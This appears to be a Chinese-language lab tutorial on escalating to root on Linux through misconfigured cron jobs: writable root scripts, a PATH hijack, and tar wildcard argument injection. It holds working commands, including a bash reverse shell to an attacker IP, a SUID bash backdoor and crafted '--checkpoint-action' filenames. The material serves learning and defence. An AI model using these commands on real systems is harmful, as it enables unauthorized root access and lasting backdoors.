

# 前言：

本篇讲的是第三类：计划任务漏洞提权方法

# 基础知识及提权原理：

在 Linux 系统中，`cron` 是一个用来定期执行任务的后台守护进程（类似 Windows 的“任务计划程序”）。系统管理员经常用它来做定时备份、定时清理日志等工作。

**漏洞点：** 如果一个计划任务是**以 `root` 身份运行的**，且它调用的脚本或运行环境能够被我们（低权限用户）控制，我们就可以把恶意代码塞进去。等时间一到，系统就会用 root 权限帮我们执行恶意代码


## 如何发现计划任务？

```bash
cat /etc/crontab
```

注意看文件里的内容，如果有任务的执行者是 `root`,我们就要重点关注它

然后我们可以locate定位这个脚本

```bash
locate overwrite.sh
```


# 实战：

情况一：自动任务文件权限提权 (root运行脚本可写)
----------------------



这里root运行的overwrite.sh可读可写，直接打

我们需要注意

这里我们可以有两种攻击方法：一种是反弹shell，一种是写文件再获得shell

### 反弹shell：

1. 改写overwrite.sh
   
   ```bash
   bash -i >& /dev/tcp/主机ip/4444 0>&1
   #意思是把自己的 shell 强制发送给 10.10.10.10 的 4444 端口
   ```

2. 在主机监听
   
   ```bash
   nc -lvnp 4444
   ```

| 参数         | 全称               | 含义    | 作用                                                                             |
| ---------- | ---------------- | ----- | ------------------------------------------------------------------------------ |
| **`-l`**   | **Listen**       | 监听模式  | 告诉 `nc` 以服务端模式运行，等待别人来连接，而不是主动去连接别人                                            |
| **`-v`**   | **Verbose**      | 详细输出  | 让命令显示更详细的信息，比如当有客户端连接时会提示 "Connection received"，方便调试                           |
| **`-n`**   | **Numeric-only** | 纯数字模式 | **不进行 DNS 解析**。如果对方域名是 `pc-123.example.com`，它不会去查询域名，直接显示 IP，这样速度更快，也避免 DNS 泄露 |
| **`-p`**   | **Port**         | 指定端口  | 明确指定要监听的端口号。后面紧跟的 `4444` 就是端口号                                                 |
| **`4444`** |                  | 端口号   | 监听的 TCP 端口。4444 是 Metasploit 等工具的默认端口，在渗透测试中很常用                                |

3. 等待corn任务执行，主机的终端就变成了靶机的 `root@RedteamNotes:~#`
   
   

### 写文件获得持久shell

1. **追加恶意代码**：千万不要用 `>` 覆盖破坏原有逻辑，使用 `>>` 将反弹 Shell 或 SUID 后门追加到脚本末尾：
   
   ```bash
   echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /usr/local/bin/cleanup.sh
   ```

2. 一分钟后，去 `/tmp` 目录看看有没有多出一个带有 `s` 权限的 `rootbash`。如果有：
   
   ```bash
   /tmp/rootbash -p #-p 代表 privileged，作用是维持root权限
   ```
   
   这样就获得root了

### 题外话：

细心的人可能会发现，为什么用corn来提权和别的都不太一样呢，别的直接su root就好了，为什么这个还要反弹shell呢

**因为：**

你现在通过 SSH 或者 WebShell 连进靶机，看着一个黑框框在敲命令，这个黑框框叫做**当前终端（TTY）**。

但是，Cron（计划任务）是在系统最深处的后台运行的，它**完全不跟你当前的终端沾边**。如果 Cron 在后台以 root 身份执行了 `whoami` 或者弹出了一个 `sh`（Shell），**它不会显示在你的屏幕上**。

所以，corn提权面临的问题是：**Cron 在后台拿到了 root，怎么把这个 root 传递给我们？**

所以我们采用**反弹shell**这种不太好理解的方式


## 情况二：自动任务 PATH 环境变量提权（脚本不可写）

看了一下 `/etc/crontab`，发现脚本权限很严格，改不了脚本。

但是，你注意到配置文件的最上面有一行环境变量声明非常有意思： `PATH=/home/user:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin`    `/home/user` 这个我们可控的低权限目录，竟然被放在了最前面！

**原理解析：** Cron 运行时，为了寻找 `overwrite.sh` 这个命令，会按照 `PATH` 提供的目录从左到右依次寻找。因为它先搜 `/home/user`，如果我们在这个目录下放一个同名的假脚本，Cron 就会把它当成真的执行掉


1. 去PATH路径靠前的地方去放我们的假脚本
   
   ```bash
   #!/bin/bash
   cp /bin/bash /tmp/rootbash
   chmod +xs /tmp/rootbash
   #命名为同名脚本.sh
   ```

2. 给执行权限
   
   ```bash
   chmod +x overwrite.sh
   ```

3. 等Cron执行你放在这里的假脚本。去 `/tmp` 运行 `/tmp/rootbash -p` 拿 root 即可。
   
   

情况三：自动任务通配符提权 (corn脚本中有*)
-----------------------------------------

**背景**：脚本你改不了，PATH 也很正常。但是你通过 `cat` 读取了那个以 root 身份运行的定时脚本的内容，发现它里面有这样一行做备份的命令：

```bash
cd /var/www/html/uploads && tar -cf /backup/backup.tar *
```

**漏洞点**：这里使用了星号通配符 **`*`**。

**原理解析：** 当我们在命令行使用 `*` 时，Bash 会把它展开成当前目录下的**所有文件名**。假设目录下有三个文件：`a.txt`, `b.txt`, `--help`。那么 `tar -cf backup.tar *` 就会被系统解析成： `tar -cf backup.tar a.txt b.txt --help` 

**系统会把名为 `--help` 的文件当成 `tar` 命令的参数给执行了** 。而 `tar` 命令刚好有执行外部脚本的隐藏参数（`--checkpoint-action`）。

注意：**通配符提权不仅仅适用于 `tar`**。像 `rsync`、`chown` 等命令如果配合 `*` 使用，同样可以通过 GTFOBins 查找到对应的参数注入方法。


## 命令：

假设定时任务会在 `/var/www/html/uploads` 目录下执行带有 `*` 的 `tar` 命令，而我们对这个目录刚好有写权限。

1. 进入目标目录：
   
   ```bash
   cd /var/www/html/uploads
   ```

2. **创建恶意脚本**：写一个你想让 root 执行的代码（比如反弹 shell 或者赋权 bash）：
   
   ```bash
   echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > shell.sh
   chmod +x shell.sh
   ```

3. **创建特殊的“参数文件” (漏洞核心)**：利用 `touch` 创建两个名字极其怪异的文件，它们的名字其实是 `tar` 命令的参数：
   
   ```bash
   touch "/var/www/html/uploads/--checkpoint=1"
   touch "/var/www/html/uploads/--checkpoint-action=exec=sh shell.sh"
   ```

4. **等待Cron 执行**到 `tar -cf backup.tar *` 时，Bash 将其展开为： `tar -cf backup.tar shell.sh --checkpoint=1 --checkpoint-action=exec=sh shell.sh` 于是 `tar` 命令在打包时，触发了检查点，顺便以 root 身份执行了你的 `shell.sh`。提权成功！

# 小tips：

**文件权限不仅看文件本身，还要看它所在的目录**。如果一个脚本是 `root` 权限的，且权限为 `-rwxr-xr-x`（你不可写），但它所在的文件夹对你开放了写权限（`drwxrwxrwx`），你可以**直接把脚本删了，然后新建一个同名的恶意脚本**
